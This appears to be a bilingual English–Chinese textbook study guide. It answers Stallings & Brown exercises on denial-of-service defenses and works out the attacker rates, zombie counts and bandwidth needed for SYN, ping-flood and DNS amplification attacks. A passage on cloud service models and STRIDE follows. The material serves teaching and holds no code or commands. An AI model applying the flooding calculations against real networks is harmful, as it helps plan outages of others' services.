An amplification attack is a reflection attack in which each forged request produces more traffic than the attacker sent: either several replies or one much larger reply. A request to the directed broadcast address of a network makes every host on it reply to the target (smurf with ICMP echo, fraggle with UDP echo), and a short DNS query can draw a response many times larger. The amplification factor is the bytes arriving at the target divided by the bytes the attacker sent.放大攻击是一种反射攻击，每个伪造请求产生的流量都大于攻击者发出的流量：要么产生多个回复，要么产生一个大得多的回复。发往某网络定向广播地址的请求，会使该网络中的每台主机都向目标回复（ICMP 回显对应 smurf，UDP 回显对应 fraggle），而一个简短的 DNS 查询也可能引出大许多倍的应答。放大因子是到达目标的字节数除以攻击者发出的字节数。
E11. (Review Question 7.11, Stallings & Brown) What is the primary defense against many DoS attacks, and where is it implemented?E11.（复习题 7.11，Stallings & Brown）针对许多 DoS 攻击的主要防御手段是什么？它在哪里实现？
Answer
The primary defense is to block packets with spoofed source addresses (ingress or anti-spoofing filtering). It is implemented at ISP routers, and at the organisation's border routers, which know the address ranges of their customers or networks and drop packets whose source address does not belong to them. This stops reflection and amplification attacks completely and makes the other attacks traceable. It works only if it is deployed widely, which is the weakness: the networks that must filter are not the networks that are attacked.主要防御手段是阻断源地址被伪造的数据包（入口过滤或反欺骗过滤）。它在 ISP 的路由器和机构的边界路由器上实现。这些路由器知道其客户或网络的地址范围，并丢弃源地址不属于它们的数据包。这样可以彻底阻止反射攻击和放大攻击，并使其他攻击可以被追溯。只有广泛部署才会奏效，这也正是它的弱点：必须过滤的网络往往不是被攻击的网络。
E12. (Review Question 7.12, Stallings & Brown) What defenses are possible against nonspoofed flooding attacks? Can such attacks be entirely prevented?E12.（复习题 7.12，Stallings & Brown）针对非伪造源的洪泛攻击有哪些可能的防御手段？这类攻击能否被彻底预防？
Answer
Because the attack packets look like valid traffic from real addresses, the defenses are limited:由于攻击数据包看起来就像来自真实地址的正常流量，防御手段受到限制：
- Identify the attacking sources and have the ISP filter them upstream of the congested link.识别攻击来源，并让 ISP 在拥塞链路的上游将其过滤。
- Rate-limit packet types that should be a small share of traffic (ICMP echo, UDP to diagnostic ports).对本应只占很小比例的数据包类型进行速率限制（ICMP 回显、发往诊断端口的 UDP）。
- Keep spare bandwidth and replicate servers over several sites and links.预留备用带宽，并在多个站点和链路上复制服务器。
- Keep hosts patched and well configured so that they do not become zombies.及时为主机打补丁并保证配置得当，使它们不会沦为僵尸主机。
Such attacks cannot be entirely prevented. A large volume of legitimate traffic from real addresses cannot be told apart from an attack, and a filter that blocks it also blocks legitimate users.这类攻击无法被彻底预防。来自真实地址的大量合法流量与攻击无从区分，而阻断它的过滤器也会阻断合法用户。
E13. (Review Question 7.13, Stallings & Brown) What defenses are possible against TCP SYN spoofing attacks?E13.（复习题 7.13，Stallings & Brown）针对 TCP SYN 欺骗攻击有哪些可能的防御手段？
Answer
- SYN cookies: the server puts the connection information, protected by a keyed hash, in the initial sequence number of the SYN-ACK and stores nothing; only a client that returns the correct acknowledgement gets a table entry.SYN cookie：服务器把受密钥哈希保护的连接信息放入 SYN-ACK 的初始序号中，且不存储任何内容；只有回送正确确认的客户端才会获得表项。
- Selective or random drop: when the table is full, delete a random half-open entry to make room, because it is probably an attack entry.选择性或随机丢弃：表满时，删除一个随机的半开表项以腾出空间，因为它很可能是攻击项。
- Tuning: a larger table and a shorter timeout for half-open entries make the attack harder but do not stop it.参数调优：增大表容量并缩短半开表项的超时时间，可使攻击更难，但无法阻止它。
- Ingress filtering against forged addresses at the ISP.在 ISP 处进行入口过滤，阻止伪造地址。
SYN cookies are the strongest server-side defense, at the cost of CPU time and of losing TCP options such as large windows.SYN cookie 是服务器端最强的防御手段，但代价是消耗 CPU 时间，并且会丢失大窗口等 TCP 选项。
E14. (Review Question 7.14, Stallings & Brown) What defenses are possible against a DNS amplification attack? Where must these be implemented? Which are unique to this form of attack?E14.（复习题 7.14，Stallings & Brown）针对 DNS 放大攻击有哪些可能的防御手段？这些手段必须在哪里实现？哪些是这种攻击特有的？
Answer
- Ingress filtering of spoofed source addresses, implemented at ISPs and organisation border routers. It is the general defense against all reflection attacks and is not unique to DNS.对伪造源地址进行入口过滤，在 ISP 和机构的边界路由器上实现。这是针对所有反射攻击的通用防御，并非 DNS 特有。
- Restricting recursive DNS responses to the organisation's own (internal) clients, so that the server is not an open recursive resolver, implemented on the DNS servers by their operators. This is unique to DNS amplification.把递归 DNS 应答限制给本机构自己的（内部）客户端，使服务器不成为开放递归解析器，由 DNS 服务器的运营者在服务器上实现。这是 DNS 放大攻击特有的。
- Rate limiting of responses and, on the target side, spare capacity and upstream filtering, since the target alone can do little.对应答进行速率限制；在目标一侧，则依靠预留容量和上游过滤，因为仅靠目标自身能做的很少。
E15. (Review Question 7.15, Stallings & Brown) What defenses are possible to prevent an organization's systems being used as intermediaries in a broadcast amplification attack?E15.（复习题 7.15，Stallings & Brown）有哪些防御手段可以防止机构的系统在广播放大攻击中被用作中间节点？
Answer
- Configure routers not to forward directed broadcast packets into the organisation's networks from outside (this is the default today), so that a forged request cannot reach the broadcast address.配置路由器，使其不把来自外部的定向广播数据包转发进机构网络（这在今天是默认设置），从而使伪造的请求无法到达广播地址。
- Block ICMP echo and UDP echo or other diagnostic services from outside, at some cost to troubleshooting.从外部阻断 ICMP 回显、UDP 回显或其他诊断服务，但排障会受到一定影响。
- Configure hosts not to answer echo requests sent to a broadcast address.配置主机，使其不回应发往广播地址的回显请求。
- Apply ingress filtering, so that forged requests do not leave the organisation, and keep hosts secure so that they are not used as zombies.实施入口过滤，使伪造的请求不会离开本机构；并保证主机安全，使它们不被用作僵尸主机。
E16. (Review Question 7.16, Stallings & Brown) To what do the terms slashdotted and flash crowd refer to? What is the relation between these instances of legitimate network overload and the consequences of a DoS attack?E16.（复习题 7.16，Stallings & Brown）slashdotted 和 flash crowd 指的是什么？这些合法的网络过载与 DoS 攻击的后果之间有什么关系？
Answer
A flash crowd is a sudden surge of legitimate requests to a site, for example during a major sporting event or news. Slashdotted is the same effect after a link to a small site is posted on a very popular site, whose readers all follow it at once. Both overload the server or its link and make the service slow or unavailable to everyone, exactly like a DoS attack. The relation is that the consequence is identical but nothing is malicious, and the traffic cannot be filtered without also blocking real users. This is why DoS attacks cannot be prevented entirely, and the same remedies (spare capacity, replicated servers) help in both cases.突发访问是指对某个网站的合法请求突然激增，例如在重大体育赛事或新闻事件期间。slashdotted 则是同一种效果：一个小网站的链接被发布在一个非常热门的网站上，该网站的读者会同时涌向它。两者都会使服务器或其链接过载，使所有人的服务变慢甚至无法访问，与 DoS 攻击完全一样。二者的关系是：后果相同，但没有任何恶意，而且如果过滤流量，也会同时阻断真实用户。这就是 DoS 攻击无法被彻底预防的原因，同样的补救措施（预留容量、复制服务器）在两种情况下都有帮助。
E17. (Review Question 7.17, Stallings & Brown) What steps should be taken when a DoS attack is detected?E17.（复习题 7.17，Stallings & Brown）检测到 DoS 攻击时应采取哪些步骤？
Answer
Follow a prepared incident-response plan:按照事先准备好的事件响应预案执行：
- Identify the attack type by capturing and analysing the packets (yourself or through the ISP) and compare it with the usual traffic baseline.通过捕获和分析数据包（自行或通过 ISP）来识别攻击类型，并与平时的流量基线进行比较。
- Contact the ISP, whose contacts were prepared in advance and are reachable without the network, so that it installs filters on its routers; flooding can be stopped only upstream of the congested link.联系 ISP（其联系方式已事先准备好，并且在网络中断时也能联系上），由其在路由器上安装过滤器；洪泛只能在拥塞链路的上游被阻止。
- Where possible, trace the source and document evidence; report the attack to law enforcement if needed.在可能的情况下，追溯来源并保留证据记录；必要时向执法部门报案。
- If the attack cannot be filtered, switch to backup servers or build new ones at a new site with new addresses.如果攻击无法被过滤，就切换到备用服务器，或在新站点用新地址建设新服务器。
- Afterwards review the response and improve the defenses.事后复盘响应过程，并改进防御措施。
E18. (Review Question 7.18, Stallings & Brown) What measures are needed to trace the source of various types of packets used in a DoS attack? Are some types of packets easier to trace back to their source than others?E18.（复习题 7.18，Stallings & Brown）要追溯 DoS 攻击中各类数据包的来源，需要哪些措施？某些类型的数据包是否比其他类型更容易追溯到来源？
Answer
For packets with spoofed source addresses the header does not name the source, so tracing must be done manually, hop by hop: each router along the path is asked which interface the packets arrived on, and each ISP must cooperate. It is slow and rarely finishes during the attack. Packets with real source addresses (a DDoS from zombies) are easy to attribute to the sending hosts, but those are compromised machines, and the attacker behind them stays hidden by the control hierarchy. Reflection attacks are hard to trace because the packets reaching the target come from legitimate reflectors; the forged requests would have to be traced at the reflectors, which need logging. In short, non-spoofed packets are easier to trace to their immediate source, spoofed ones are the hardest.对于源地址被伪造的数据包，包头并未标明来源，因此只能逐跳手工追溯：沿路径询问每台路由器这些数据包是从哪个接口到达的，并且每个 ISP 都必须配合。这个过程很慢，攻击期间很少能完成。源地址真实的数据包（来自僵尸主机的 DDoS）很容易归因到发送它们的主机上，但这些主机本身是被攻陷的机器，而背后的攻击者仍被控制层级隐藏。反射攻击难以追溯，因为到达目标的数据包来自合法的反射器；要追溯伪造的请求，就必须在需要日志记录的反射器上进行。简言之，未伪造源地址的数据包更容易追溯到其直接来源，伪造的数据包最难追溯。
E19. (Problem 7.2, Stallings & Brown) Using a TCP SYN spoofing attack, the attacker aims to flood the table of TCP connection requests on a system so that it is unable to respond to legitimate connection requests. Consider a server system with a table for 256 connection requests. This system will retry sending the SYN-ACK packet at 30-second intervals five times when it fails to receive an ACK packet in response; then it will purge the request from its table. Assume no additional countermeasures are used against this attack and the attacker has filled this table with an initial flood of connection requests. At what rate must the attacker continue to send TCP connection requests to this system in order to ensure that the table remains full? Assuming the TCP SYN packet is 40 bytes in size (ignoring framing overhead), how much bandwidth does the attacker consume to continue this attack?E19.（习题 7.2，Stallings & Brown）攻击者利用 TCP SYN 欺骗攻击，目的是填满系统上的 TCP 连接请求表，使其无法响应合法的连接请求。考虑一台服务器系统，其连接请求表可容纳 256 个请求。当该系统未收到 ACK 包时，会以 30 秒为间隔重试发送 SYN-ACK 包，共重试五次；之后便将该请求从表中清除。假设未采取其他对策，且攻击者已用一批初始的洪泛连接请求填满了该表。攻击者需要以多大速率持续发送 TCP 连接请求，才能使该表保持满载？假设每个 TCP SYN 包大小为 40 字节（忽略帧开销），攻击者为维持这一攻击要消耗多少带宽？
Answer
Method: in steady state every entry stays in the table for a lifetime \(L\), so the table of \(N\) entries stays full only if new entries arrive at rate \(r=N/L\).方法：稳定状态下，每个表项在表中停留的时间为 \(L\)，因此容量为 \(N\) 个表项的表只有在新表项以 \(r=N/L\) 的速率到达时才能保持满载。
Lifetime: the first SYN-ACK is sent at time 0, then five retries at 30, 60, 90, 120 and 150 seconds. The server waits one more 30-second interval for the last reply and then purges the entry, so \(L = 6 \times 30 = 180\) s.生存时间：第一个 SYN-ACK 在时刻 0 发出，之后分别在 30、60、90、120 和 150 秒重试五次。服务器再等待一个 30 秒间隔以等待最后一次回复，然后清除该表项，因此生存时间为 \(L = 6 \times 30 = 180\) 秒。
Rate: \(r = 256/180 \approx 1.42\) SYN packets per second.速率：每秒 \(r = 256/180 \approx 1.42\) 个 SYN 包。
Bandwidth: \(1.42 \times 40 \times 8 \approx 455\) bit/s, about 0.46 Kbps.带宽：\(1.42 \times 40 \times 8 \approx 455\) bit/s，约 0.46 Kbps。
(If the entry is purged at the moment of the fifth retry, \(L=150\) s, \(r\approx1.7\) per second and about 0.55 Kbps. The answer is the same order of magnitude.)（若表项恰在第五次重试时被清除，则为 \(L=150\) 秒，\(r\approx1.7\) 个/秒，带宽约 0.55 Kbps。两种答案的数量级相同。）
This shows that SYN spoofing needs a tiny rate and a tiny bandwidth, far less than a modem line, because it attacks the table and not the link.这说明 SYN 欺骗只需极低的速率和极小的带宽，远低于一条调制解调器线路，因为它攻击的是表而不是链路。
思路：稳态下表满的条件是到达率 = 表大小 / 表项寿命。
E20. (Problem 7.3, Stallings & Brown) Consider a distributed variant of a ping flood in which each ICMP echo request packet is 500 bytes. Assume the attacker has compromised a number of broadband-connected residential PCs to use as zombie systems, each with an average uplink capacity of 128 Kbps. What is the maximum number of 500-byte ICMP echo request packets a single zombie PC can send per second? How many such zombie systems would the attacker need to flood a target organization using a 0.5-Mbps link? A 2-Mbps link? Or a 10-Mbps link? Given reports of botnets composed of many thousands of zombie systems, what can you conclude about their controller's ability to launch DDoS attacks on multiple such organizations simultaneously? Or on a major organization with multiple, much larger network links than we have considered in these problems?E20.（习题 7.3，Stallings & Brown）考虑 ping 洪泛的一种分布式变体，其中每个 ICMP 回显请求包为 500 字节。假设攻击者攻陷了若干接入宽带的家用 PC，将其用作僵尸主机，每台的平均上行容量为 128 Kbps。单台僵尸 PC 每秒最多能发送多少个 500 字节的 ICMP 回显请求包？要洪泛一个使用 0.5 Mbps 链路的目标机构，攻击者需要多少台这样的僵尸主机？使用 2 Mbps 链路呢？使用 10 Mbps 链路呢？鉴于有报道称僵尸网络由成千上万台僵尸主机组成，关于其控制者同时对多个此类机构发动 DDoS 攻击的能力，你能得出什么结论？或者对一个拥有多条远大于本题所考虑链路的大型机构发动攻击，又能得出什么结论？
Answer
Packets per zombie: a packet is \(500 \times 8 = 4{,}000\) bits, so one zombie sends at most \(128{,}000/4{,}000 = 32\) packets per second.每台僵尸主机的包数：一个数据包为 \(500 \times 8 = 4{,}000\) 比特，因此一台僵尸主机每秒最多发送 \(128{,}000/4{,}000 = 32\) 个数据包。
Zombies needed: to fill a link of capacity \(C\) the zombies must send together at least \(C\) bit/s, so the number is \(C/128{,}000\) rounded up. (In packets per second the target link needs \(C/4{,}000\), that is 125, 500 and 2,500 packets per second, and each zombie supplies 32.)所需僵尸主机数：要填满容量为 \(C\) 的链路，僵尸主机必须共同发送至少 \(C\) bit/s，因此数量为 \(C/128{,}000\) 并向上取整。（以每秒数据包数计，目标链路需要 \(C/4{,}000\)，即每秒 125、500 和 2,500 个数据包，而每台僵尸主机提供 32 个。）
link packets/s needed zombies = C / 128 Kbps
0.5 Mbps 125 3.9 -> 4
2 Mbps 500 15.6 -> 16
10 Mbps 2,500 78.1 -> 79
Conclusion: a few tens of ordinary home PCs flood a small organisation's link. A botnet of many thousands of zombies has an aggregate uplink of hundreds of Mbps; for example 10,000 zombies give \(10{,}000 \times 128\) Kbps \(= 1.28\) Gbps. Its controller can therefore attack many small organisations at once (about 128 organisations with a 10-Mbps link at once) and can also overload a major organisation whose links run at hundreds of Mbps or a few Gbps, and larger botnets reach further. Only the very largest providers, with much more capacity than the botnet, are safe by size.结论：几十台普通家用 PC 就能洪泛一个小机构的链路。由成千上万台僵尸主机组成的僵尸网络，其总上行容量可达数百 Mbps；例如 10,000 台僵尸主机可给出 \(10{,}000 \times 128\) Kbps \(= 1.28\) Gbps。因此，其控制者可以同时攻击许多小机构（同时对约 128 个使用 10 Mbps 链路的机构发动攻击），也可以压垮链路速率达数百 Mbps 或数 Gbps 的大型机构；规模更大的僵尸网络能力更强。只有容量远超僵尸网络的超大型服务提供商，凭借规模才是安全的。
E21. (Problem 7.4, Stallings & Brown) In order to implement a DNS amplification attack, the attacker must trigger the creation of a sufficiently large volume of DNS response packets from the intermediary to exceed the capacity of the link to the target organization. Consider an attack in which the DNS response packets are 500 bytes in size (ignoring framing overhead). How many of these packets per second must the attacker trigger to flood a target organization using a 0.5-Mbps link? A 2-Mbps link? Or a 10-Mbps link? If the DNS request packet to the intermediary is 60 bytes in size, how much bandwidth does the attacker consume to send the necessary rate of DNS request packets for each of these three cases?E21.（习题 7.4，Stallings & Brown）要实施 DNS 放大攻击，攻击者必须促使中间节点产生足够大量的 DNS 应答包，使其超过通往目标机构链路的容量。考虑这样一种攻击：DNS 应答包大小为 500 字节（忽略帧开销）。要洪泛一个使用 0.5 Mbps 链路的目标机构，攻击者每秒必须促使产生多少个这样的应答包？2 Mbps 链路呢？10 Mbps 链路呢？如果发往中间节点的 DNS 请求包大小为 60 字节，那么在这三种情况下，攻击者为发送所需速率的 DNS 请求包要消耗多少带宽？
Answer
Method: the rate of responses is the link capacity divided by the size of a response, \(r = C/(8 \times 500)\) with \(C\) in bit/s. Each response needs one request of \(60 \times 8 = 480\) bits, so the attacker's bandwidth is \(480\,r\).方法：应答速率等于链路容量除以应答的大小，即 \(r = C/(8 \times 500)\)，其中 \(C\) 以 bit/s 为单位。每个应答需要一个 \(60 \times 8 = 480\) 比特的请求，因此攻击者的带宽为 \(480\,r\)。
target link responses/s request bandwidth
0.5 Mbps 125 125 x 480 = 60 Kbps
2 Mbps 500 500 x 480 = 240 Kbps
10 Mbps 2,500 2,500 x 480 = 1.2 Mbps
The amplification factor is \(500/60 \approx 8.3\), so the attacker uses only about 12% of the target's link capacity in each case (60/500, 240/2,000 and 1,200/10,000). A single broadband PC with a 128-Kbps uplink cannot flood even the 0.5-Mbps link directly with pings, but it can with DNS amplification (60 Kbps is below 128 Kbps); a few PCs suffice for the larger links. It also hides the attacker, since the packets come from DNS servers.放大因子为 \(500/60 \approx 8.3\)，因此在各种情况下攻击者只消耗目标链路容量的约 12%（60/500、240/2,000 和 1,200/10,000）。一台上行为 128 Kbps 的宽带 PC 即使直接用 ping 也无法洪泛 0.5 Mbps 的链路，但借助 DNS 放大就可以（60 Kbps 低于 128 Kbps）；对于较大的链路，几台 PC 即可。这种方式还能隐藏攻击者，因为数据包来自 DNS 服务器。
Chapter 24Cloud, IoT and SCADA Security云、物联网与 SCADA 安全Reading: Stallings & Brown Ch. 13; Stallings (Crypto) Ch. 22
Cloud computing: characteristics, service models and architecture ★★★云计算：基本特征、服务模型与架构
Goal. List the five characteristics, the three service models, the four deployment models and the five actors of the NIST architecture. Say for a given case which model applies and who manages which layer.目标。 列出五项基本特征、三种服务模式、四种部署模式以及 NIST 架构的五类参与者。对于给定的情况，说明适用哪种模式，以及由谁管理哪一层。
Step 1: what cloud computing is第 1 步：什么是云计算
In words: cloud computing = renting computing resources over the network, as much as you need, and paying only for what you use.用文字表述：云计算 = 通过网络租用计算资源，需要多少用多少，只为实际使用付费。
Cloud computing（云计算）is a model for ubiquitous, convenient, on-demand network access to a shared pool of configurable resources (networks, servers, storage, applications, services). The resources can be rapidly provisioned and released with minimal management effort or provider interaction. It has five essential characteristics.云计算是一种模式，可以随时随地、方便地按需通过网络访问一个可配置资源的共享池（包括网络、服务器、存储、应用和服务）。这些资源可以快速配置和释放，所需的管理工作和与服务商的交互都很少。它有五项基本特征。
- On-demand self-service: a cloud service consumer（云服务消费者）(CSC, also called customer) provisions server time or storage automatically, with no human interaction at the provider.按需自助服务：云服务消费者（CSC，也称客户）无需与提供者的工作人员交互，即可自动配置服务器时间或存储。
- Broad network access: standard mechanisms give thin and thick clients, such as phones and laptops, access over the network.广泛的网络接入：通过标准机制，让手机、笔记本等轻型和重型客户端都能通过网络访问。
- Resource pooling: a multi-tenant pool serves many CSCs. Resources are reassigned dynamically. The CSC knows the location at most as a country or data center.资源池化：多租户资源池服务于许多云服务消费者（CSC）。资源会被动态地重新分配。CSC 至多只能知道资源所在的国家或数据中心。
- Rapid elasticity: resources are expanded and released as the task requires.快速弹性：资源随任务需要而扩展或释放。
- Measured service: usage is metered and reported to both sides, which enables pay-per-use.可计量的服务：资源使用量被计量，并同时报告给双方，从而支持按使用量付费。

Step 2: the three service models第 2 步：三种服务模式
In words: the three service models differ in how much of the software stack the provider runs for you: SaaS runs everything, PaaS runs the platform, IaaS runs only the hardware.用文字表述：三种服务模式的区别在于服务商替你运行的软件栈有多少：SaaS 运行全部，PaaS 运行平台，IaaS 只运行硬件。
| Model模型 | Provider supplies提供者提供 | Consumer controls消费者控制 | Examples示例 |
|---|---|---|---|
| SaaS（软件即服务） | the application, used through a browser; no installation or patching for the consumer应用本身，通过浏览器使用；消费者无需安装或打补丁 | accounts, settings, its data账户、设置及其数据 | Gmail, Microsoft 365, SalesforceGmail、Microsoft 365 和 Salesforce |
| PaaS（平台即服务） | a platform of building blocks, tools and run-times: "an operating system in the cloud"由构件、工具和运行时组成的平台：“云中的操作系统” | the applications it deploys其部署的应用 | AppEngine, Heroku, AzureAppEngine、Heroku 和 Azure |
| IaaS（基础设施即服务） | VMs, storage and networks, self-provisioned by web console or API虚拟机、存储和网络，由消费者通过网页控制台或 API 自行配置 | operating systems, applications, host firewalls; not the infrastructure操作系统、应用、主机防火墙；不包括底层基础设施 | Amazon EC2, Google Compute Engine, RackspaceAmazon EC2、Google Compute Engine 和 Rackspace |

Example (an everyday comparison): SaaS is a taxi, PaaS is a rented car, IaaS is a rented empty garage. The more the provider does, the less you control. In all three cases the consumer stays accountable for its data.打个日常的比方：SaaS 像打车，PaaS 像租车，IaaS 像租一个空车库。服务商做得越多，你能控制的就越少。无论哪种情况，消费者都对其数据负责。
Step 3: the four deployment models第 3 步：四种部署模式
In words: the deployment model says who may use the cloud and where it runs.用文字表述：部署模式说明谁可以使用云，以及云运行在哪里。
- Public cloud（公有云）: owned by a provider that sells services to the general public or a large industry group. It lies outside the enterprise firewall and is multi-tenant. It is cheap, scalable and pay-per-use. Weak points: usually weak SLAs, no guarantee against data loss, and privacy-law compliance stays with the subscriber.公有云：由服务商拥有，向公众或大型行业团体出售服务。它位于企业防火墙之外，且为多租户。它便宜、可扩展，并按使用付费。弱点：通常 SLA 较弱，无法保证不丢失数据，并且隐私法律合规仍由订户负责。
- Private cloud（私有云）: inside the organization's own IT environment, run in-house or by a third party, on or off premises. It is chosen for security and control over data location.私有云：位于机构自身的 IT 环境之中，可由机构自行运营，也可由第三方运营，可以设在本地或异地。选择它是为了获得安全性以及对数据位置的控制。
- Community cloud（社区云）: restricted access like a private cloud, shared by several organizations with similar requirements who exchange data, for example health care. Costs are spread over fewer users than in a public cloud.社区云：访问受限，与私有云类似，由多个有相似需求、需要交换数据的机构共享，例如医疗保健。与公有云相比，成本分摊给的用户更少。
- Hybrid cloud（混合云）: two or more clouds (private, community, public) that stay separate but are bound by standardized or proprietary technology for data and application portability. Cloud bursting（云突发）uses the public part to balance load. Sensitive data stay in the private part.混合云：两个或多个云（私有云、社区云、公有云）保持各自独立，但通过标准化或专有技术绑定在一起，以实现数据和应用的可移植性。云突发利用公有云部分来平衡负载。敏感数据保留在私有云部分。
| Property属性 | Private私有云 | Community社区云 | Public公有云 | Hybrid混合云 |
|---|---|---|---|---|
| Scalability可扩展性 | Limited有限 | Limited有限 | Very high非常高 | Very high非常高 |
| Security安全性 | Most secure最安全 | Very secure非常安全 | Moderately secure安全性中等 | Very secure非常安全 |
| Performance性能 | Very good非常好 | Very good非常好 | Low to medium低至中等 | Good良好 |
| Reliability可靠性 | Very high非常高 | Very high非常高 | Medium中等 | Medium to high中至高 |
| Cost成本 | High高 | Medium中等 | Low低 | Medium中等 |
Step 4: the NIST reference architecture第 4 步：NIST 参考架构
In words: the reference architecture names the five parties of a cloud deal and what each does.用文字表述：参考架构列出云交易中的五方及各自的职责。
It describes what cloud services provide, not how to build them. It is a common frame for comparing services. The five actors:它描述云服务提供什么，而不是如何建设这些服务。它是比较各类服务的通用框架。五类参与者如下：
- Cloud service consumer (CSC): has a business relationship with providers and uses their services.云服务消费者（CSC）：与提供者存在业务关系，并使用其服务。
- Cloud service provider (CSP): makes a service available to interested parties.云服务提供者（CSP）：向有需要的各方提供服务。
- Cloud auditor（云审计方）: independently assesses services, operations, performance and security of the cloud implementation.云审计方：独立评估云实现的服务、运行、性能和安全性。
- Cloud broker（云代理）: manages use, performance and delivery of services and negotiates between CSPs and consumers. It offers three services, listed below.云代理：管理服务的使用、性能和交付，并在 CSP 与消费者之间进行协商。它提供三类服务，如下所列。
- Cloud carrier（云载体）: provides connectivity and transport. The CSP sets SLAs with it and may require dedicated, secure connections.云载体：提供连接与传输。CSP 与其签订 SLA，并可能要求专用的安全连接。
The broker services:云代理提供的服务：
| Service服务 | Meaning含义 | Example示例 |
|---|---|---|
| Intermediation中介服务 | Adds value on top of a service: identity management, performance reporting, enhanced security在服务之上增加价值：身份管理、性能报告、增强安全 | The broker adds single sign-on to three services云代理为三项服务增加单点登录 |
| Aggregation聚合 | Combines several services to meet needs that no single CSP covers, or to optimize performance or cost组合多项服务，以满足单个 CSP 无法覆盖的需求，或优化性能或成本 | Storage of CSP A plus compute of CSP BCSP A 的存储加 CSP B 的计算 |
| Arbitrage套利 | Like aggregation, but the services are not fixed, so the broker chooses among providers each time与聚合相似，但服务不固定，因此代理每次都在服务商之间进行选择 | Each month the cheapest provider每月选择最便宜的服务商 |

The provider's work depends on the model. SaaS: deploy and update the applications. PaaS: run the platform software (runtime, databases, middleware). IaaS: operate the servers, networks and storage.服务商的工作取决于模式。SaaS：部署和更新应用。PaaS：运行平台软件（运行时、数据库、中间件）。IaaS：运营服务器、网络和存储。
Practice练习
Q1. (Classify) Name the service model and say who manages the operating system: (a) a company rents VMs and installs its own Linux and database; (b) developers push a web application to a managed runtime without handling servers; (c) staff use a hosted office suite through a browser.Q1.（分类）说明服务模型，并指出操作系统由谁管理：(a) 某公司租用虚拟机，并自行安装 Linux 和数据库；(b) 开发人员将 Web 应用推送到托管的运行时环境，无需管理服务器；(c) 员工通过浏览器使用托管的办公套件。
Answer
(a) IaaS: the consumer manages the OS, middleware and applications; the provider runs virtualization, servers, storage and network. (b) PaaS: the provider manages the OS and runtime; the consumer manages its application and data. (c) SaaS: the provider manages the whole stack including the OS; the consumer manages only accounts, sharing settings and its data.(a) IaaS：消费者管理操作系统、中间件和应用；提供者负责虚拟化、服务器、存储和网络。(b) PaaS：提供者管理操作系统和运行时；消费者管理其应用和数据。(c) SaaS：提供者管理包括操作系统在内的整个软件栈；消费者只管理账户、共享设置及其数据。
Q2. (Compare) Several hospitals must exchange patient records under health-privacy rules and also need extra compute for a few days of research analysis. Which deployment models fit, and why not a pure public cloud?Q2.（比较）多家医院必须依据健康隐私规定交换患者病历，同时还需要额外的计算资源，用于为期数日的科研分析。哪些部署模型适用？为什么不能只使用纯公有云？
Answer
A community cloud fits the record exchange: restricted access, shared by organizations with similar requirements and regulation, costs shared. For the temporary peak a hybrid cloud adds public capacity by cloud bursting for non-sensitive analysis, while sensitive records stay in the private or community part. A pure public cloud is cheap and scalable but has weaker SLAs and no data-loss guarantee, and privacy-law compliance remains the subscriber's duty.病历交换适合采用社区云：访问受限，由需求和监管要求相似的组织共享，成本由各方分摊。对于临时性的高峰负载，可采用混合云，通过云突发为非敏感的分析工作补充公有云资源，而敏感病历则保留在私有或社区部分。纯公有云成本低、可扩展，但 SLA 较弱，不保证防止数据丢失，并且隐私法规的合规责任仍由订购者承担。
Q3. (Explain) A broker connects an enterprise to three CSPs. Give one example of each broker service and state what the auditor does in the same picture.Q3.（解释）一个代理将某企业与三个 CSP 连接起来。请为每种代理服务各举一例，并说明在同一图景中审计方做什么。
Answer
Intermediation: the broker adds single sign-on and performance reports on top of the three services. Aggregation: it combines CSP A's storage with CSP B's compute so that one service meets the enterprise's need. Arbitrage: each month it picks the provider with the best price or credit score from a set that is not fixed. The auditor is independent of both sides: it assesses a CSP's security controls, privacy impact and performance and can assure that it conforms to standards.中介：代理在三项服务之上增加单点登录和性能报告。聚合：它将 CSP A 的存储与 CSP B 的计算结合起来，使一项服务满足企业的需求。套利：代理每月从一组不固定的提供者中，挑选价格最优或信用评分最高的那一家。审计方独立于双方：它评估 CSP 的安全控制、隐私影响和性能，并可以保证其符合相关标准。
Cloud security: threats and countermeasures ★★★云安全：威胁与对策
Goal. Explain who is responsible for what, name the cloud-specific threats with their STRIDE category and countermeasures, say how to protect data at rest, and compute downtime from availability.目标。 解释各方负责什么，说出云特有的威胁及其 STRIDE 类别和对策，说明如何保护静态数据，并由可用性计算停机时间。
Step 1: responsibility and main concerns第 1 步：责任与主要关注点
In words: in the cloud the enterprise gives away control but not accountability.用文字表述：上云后，企业交出的是控制权，而不是责任。
The enterprise loses control over resources, services and applications. It stays accountable for its security and privacy policies. Responsibility is shared. The consumer secures the application level and the provider the physical level and some software. The layers between are split by service model, with more consumer duties under IaaS. Three concerns grow when core systems move to the cloud.企业失去对资源、服务和应用的控制，但仍对其安全与隐私政策负责。责任是共担的：消费者保障应用层，服务商保障物理层和部分软件。中间各层按服务模式划分，IaaS 下消费者的责任更多。核心系统迁移到云上时，有三个问题会变得更加突出。
- Availability, quantified as the fraction of time a service is up.可用性，以服务正常运行的时间比例来量化。
- Multi-tenancy: provider and tenants must be protected from each other. Virtualization isolates well, but not every resource is virtualized and hypervisors have bugs.多租户：提供者与各租户之间必须相互防护。虚拟化的隔离效果良好，但并非所有资源都被虚拟化，而且虚拟机监视器也可能存在缺陷。
- Protection from the provider: unwiped retired disks or permission bugs expose data. Encryption by the consumer is the self-help.对服务商的保护：未擦除的退役磁盘或权限漏洞都会暴露数据。消费者自行加密是一种自助手段。
Step 2: STRIDE第 2 步：STRIDE
In words: STRIDE = six kinds of threat, each named after the security property it attacks.用文字表述：STRIDE = 六类威胁，每类都以其所攻击的安全属性命名。
STRIDE, developed at Microsoft, classifies threats from deliberate actions.STRIDE 由微软开发，用于对故意行为所造成的威胁进行分类。
| Threat威胁 | Example示例 | Control area控制领域 |
|---|---|---|
| Spoofing identityS：身份欺骗 | using a stolen password使用被盗口令 | authentication认证 |
| Tampering with dataT：篡改数据 | altering records or data in transit篡改传输中的记录或数据 | integrity完整性 |
| RepudiationR：抵赖 | denying an action when no trace exists在没有留下痕迹时否认某一行为 | non-repudiation不可否认性 |
| Information disclosureI：信息泄露 | reading a file without permission未经授权读取文件 | confidentiality机密性 |
| Denial of serviceD：拒绝服务 | making a web server unavailable使 Web 服务器不可用 | availability可用性 |
| Elevation of privilegeE：权限提升 | a user gains privileged access用户获得特权访问 | authorization授权 |
Step 3: the twelve cloud-specific threats第 3 步：十二类云特有威胁
